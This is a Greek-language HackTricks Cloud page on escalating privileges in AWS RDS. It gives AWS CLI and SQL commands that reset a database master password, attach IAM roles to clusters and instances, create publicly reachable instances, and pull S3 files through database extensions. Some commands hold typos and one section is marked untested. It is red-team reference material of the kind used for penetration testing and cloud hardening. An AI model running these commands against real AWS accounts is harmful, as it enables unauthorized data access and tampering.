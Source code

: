 # AWS - RDS Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## RDS - Υπηρεσία Σχεσιακής Βάσης Δεδομένων

Για περισσότερες πληροφορίες σχετικά με το RDS ελέγξτε:

{% content-ref url="../aws-services/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

Με αυτή την άδεια, ένας επιτιθέμενος μπορεί να **τροποποιήσει τον κωδικό πρόσβασης του κύριου χρήστη**, και την είσοδο μέσα στη βάση δεδομένων:
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
{% hint style="warning" %}
Θα χρειαστεί να μπορείτε να **επικοινωνήσετε με τη βάση δεδομένων** (συνήθως είναι προσβάσιμες μόνο από εσωτερικά δίκτυα).
{% endhint %}

**Πιθανές Επιπτώσεις:** Βρείτε ευαίσθητες πληροφορίες μέσα στις βάσεις δεδομένων.

### rds-db:connect

Σύμφωνα με τα [**έγγραφα**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html), ένας χρήστης με αυτή την άδεια θα μπορούσε να συνδεθεί στην DB instance.

### Κατάχρηση δικαιωμάτων IAM ρόλου RDS

#### Postgresql (Aurora)

{% hint style="success" %}
Αν εκτελώντας **`SELECT datname FROM pg_database;`** βρείτε μια βάση δεδομένων που ονομάζεται **`rdsadmin`**, ξέρετε ότι βρίσκεστε μέσα σε μια **βάση δεδομένων AWS postgresql**.
{% endhint %}

Αρχικά μπορείτε να ελέγξετε αν αυτή η βάση δεδομένων έχει χρησιμοποιηθεί για πρόσβαση σε οποιαδήποτε άλλη υπηρεσία AWS. Μπορείτε να το ελέγξετε κοιτάζοντας τις εγκατεστημένες επεκτάσεις:
```sql
SELECT * FROM pg_extension;
```
Αν βρείτε κάτι όπως **`aws_s3`** μπορείτε να υποθέσετε ότι αυτή η βάση δεδομένων έχει **κάποιο είδος πρόσβασης στο S3** (υπάρχουν άλλες επεκτάσεις όπως **`aws_ml`** και **`aws_lambda`**).

Επίσης, αν έχετε άδειες να εκτελέσετε **`aws rds describe-db-clusters`** μπορείτε να δείτε εκεί αν το **cluster έχει οποιοδήποτε IAM Role συσχετισμένο** στο πεδίο **`AssociatedRoles`**. Αν υπάρχει, μπορείτε να υποθέσετε ότι η βάση δεδομένων ήταν **έτοιμη να έχει πρόσβαση σε άλλες υπηρεσίες AWS**. Βασισμένοι στο **όνομα του ρόλου** (ή αν μπορείτε να αποκτήσετε τις **άδειες** του ρόλου) θα μπορούσατε να **μαντέψετε** ποια επιπλέον πρόσβαση έχει η βάση δεδομένων.

Τώρα, για να **διαβάσετε ένα αρχείο μέσα σε ένα bucket** πρέπει να γνωρίζετε τη πλήρη διαδρομή. Μπορείτε να το διαβάσετε με:
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
Αν είχατε **raw AWS credentials** θα μπορούσατε επίσης να τα χρησιμοποιήσετε για να αποκτήσετε πρόσβαση σε δεδομένα S3 με:
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
{% hint style="info" %}
Το Postgresql **δεν χρειάζεται να αλλάξει καμία μεταβλητή ομάδας παραμέτρων** για να μπορέσει να έχει πρόσβαση στο S3.
{% endhint %}

#### Mysql (Aurora)

{% hint style="success" %}
Μέσα σε ένα mysql, αν εκτελέσετε το ερώτημα **`SELECT User, Host FROM mysql.user;`** και υπάρχει ένας χρήστης που ονομάζεται **`rdsadmin`**, μπορείτε να υποθέσετε ότι βρίσκεστε μέσα σε μια **AWS RDS mysql db**.
{% endhint %}

Μέσα στο mysql εκτελέστε **`show variables;`** και αν οι μεταβλητές όπως **`aws_default_s3_role`**, **`aurora_load_from_s3_role`**, **`aurora_select_into_s3_role`**, έχουν τιμές, μπορείτε να υποθέσετε ότι η βάση δεδομένων είναι προετοιμασμένη να έχει πρόσβαση σε δεδομένα S3.

Επίσης, αν έχετε δικαιώματα να εκτελέσετε **`aws rds describe-db-clusters`** μπορείτε να ελέγξετε αν το cluster έχει κάποια **συσχετισμένη ρόλο**, που συνήθως σημαίνει πρόσβαση σε υπηρεσίες AWS).

Τώρα, για να **διαβάσετε ένα αρχείο μέσα σε ένα bucket** πρέπει να γνωρίζετε την πλήρη διαδρομή. Μπορείτε να το διαβάσετε με:
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

Ένας επιτιθέμενος με τις άδειες `rds:AddRoleToDBCluster` και `iam:PassRole` μπορεί να **προσθέσει έναν καθορισμένο ρόλο σε μια υπάρχουσα RDS παρουσία**. Αυτό θα μπορούσε να επιτρέψει στον επιτιθέμενο να **πρόσβαση σε ευαίσθητα δεδομένα** ή να τροποποιήσει τα δεδομένα εντός της παρουσίας.
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**Πιθανές Επιπτώσεις**: Πρόσβαση σε ευαίσθητα δεδομένα ή μη εξουσιοδοτημένες τροποποιήσεις στα δεδομένα της RDS παρουσίας.\
Σημειώστε ότι ορισμένες βάσεις δεδομένων απαιτούν επιπλέον ρυθμίσεις όπως το Mysql, το οποίο χρειάζεται να καθορίσει το ρόλο ARN στις ομάδες παραμέτρων επίσης.

### `rds:CreateDBInstance`

Μόνο με αυτή την άδεια, ένας επιτιθέμενος θα μπορούσε να δημιουργήσει μια **νέα παρουσία μέσα σε ένα κλάστερ** που ήδη υπάρχει και έχει συνημμένο ένα **IAM ρόλο**. Δεν θα μπορεί να αλλάξει τον κωδικό πρόσβασης του κύριου χρήστη, αλλά μπορεί να είναι σε θέση να εκθέσει τη νέα βάση δεδομένων στο διαδίκτυο:
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
TODO: Δοκιμή
{% endhint %}

Ένας επιτιθέμενος με τις άδειες `rds:CreateDBInstance` και `iam:PassRole` μπορεί **να δημιουργήσει μια νέα RDS instance με έναν καθορισμένο ρόλο συνδεδεμένο**. Ο επιτιθέμενος μπορεί στη συνέχεια **να έχει πρόσβαση σε ευαίσθητα δεδομένα** ή να τροποποιήσει τα δεδομένα εντός της instance.

{% hint style="warning" %}
Ορισμένες απαιτήσεις του ρόλου/προφίλ instance για να συνδεθούν (από [**εδώ**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)):

* Το προφίλ πρέπει να υπάρχει στον λογαριασμό σας.
* Το προφίλ πρέπει να έχει έναν IAM ρόλο που η Amazon EC2 έχει άδειες να αναλάβει.
* Το όνομα του προφίλ instance και το σχετικό όνομα IAM ρόλου πρέπει να ξεκινούν με το πρόθεμα `AWSRDSCustom`.
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
{% endcode %}

**Πιθανές Επιπτώσεις**: Πρόσβαση σε ευαίσθητα δεδομένα ή μη εξουσιοδοτημένες τροποποιήσεις στα δεδομένα της RDS παρουσίας.

### `rds:AddRoleToDBInstance`, `iam:PassRole`

Ένας επιτιθέμενος με τις άδειες `rds:AddRoleToDBInstance` και `iam:PassRole` μπορεί να **προσθέσει έναν καθορισμένο ρόλο σε μια υπάρχουσα RDS παρουσία**. Αυτό θα μπορούσε να επιτρέψει στον επιτιθέμενο να **πρόσβαση σε ευαίσθητα δεδομένα** ή να τροποποιήσει τα δεδομένα εντός της παρουσίας.

{% hint style="warning" %}
Η DB παρουσία πρέπει να είναι εκτός ενός κλάσματος για αυτό
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
{% endcode %}

**Πιθανές Επιπτώσεις**: Πρόσβαση σε ευαίσθητα δεδομένα ή μη εξουσιοδοτημένες τροποποιήσεις στα δεδομένα της RDS παρουσίας.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
